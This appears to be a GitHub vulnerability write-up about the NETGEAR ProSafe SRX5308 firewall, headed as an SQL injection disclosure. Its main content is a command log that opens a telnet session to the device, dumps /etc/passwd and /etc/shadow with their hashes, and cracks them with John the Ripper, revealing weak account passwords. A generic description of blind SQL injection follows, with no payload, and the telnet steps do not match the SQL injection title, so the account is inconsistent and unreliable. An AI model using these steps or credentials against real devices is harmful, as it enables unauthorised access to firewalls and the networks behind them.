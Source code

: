 # NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308 SQL Injection Vulnerability

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.jpg" class="shrinkToFit" width="700" height="284">

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.png" class="shrinkToFit" width="700" height="284">

* The NETGEAR ProSAFE SRX5308 Quad WAN Gigabit SSL VPN Firewall is perfect for even the most demanding business networks. The SRX5308 features a hardware-* accelerated data flow architecture that allows for 1 Gbps of stateful firewall throughput.

* telnet 192.168.1.2 520

* cat /etc/passwd

"
root:x:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:x:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:x:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli
"

* cat /etc/shadow

"
daemon:*:13189:0:99999:7:::
root:CxqJynrkPOtP.:12374:0:99999:7:::
admin:m1LVojhaR1U5Y:11582:0:99999:7:::
guest:K7Vjga.vILkVA:11582:0:99999:7:::
"

* root@kali:~$ unshadow /home/root/Desktop/passwd /home/root/Desktop/shadow > /home/root/Desktop/status

"
root:CxqJynrkPOtP.:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:m1LVojhaR1U5Y:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:K7Vjga.vILkVA:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli
"
* root@kali:~$ john /home/root/Desktop/status

* Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])

* Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

* password (showid)

* password (guest)

SQL injection is a type of vulnerability that occurs when a malicious user is able to input untrusted data into an application's SQL query, allowing them to execute arbitrary SQL commands on the database. Boolean-based blind SQL injection is a type of SQL injection that allows an attacker to determine the truth of a statement by injecting specific inputs and observing the response.

In the case of the NETGEAR ProSafe™ Gigabit Quad WAN SSL VPN Firewall SRX5308, the vulnerability exists on the login page, where the device's authentication mechanism is vulnerable to a boolean-based blind SQL injection attack. An attacker could exploit this vulnerability by injecting malicious SQL code into the login form's fields, such as the username or password field, and observing the response from the device.

The attacker could use this vulnerability to extract sensitive information from the device's database, such as user credentials, and even gain complete control over the device. It could also allow an attacker to access the internal network behind the firewall and potentially compromise other devices on the network.

To prevent this vulnerability, it is important to keep the device updated with the latest security patches and to properly validate user input on the login page. It is also important to monitor the device's logs for any suspicious activity and to use a strong and unique password for the device's administrator account.

It's important to note that this vulnerability may have been already fixed by the manufacturer and if you are using this device, it's important to contact NETGEAR for a patch or a solution for this





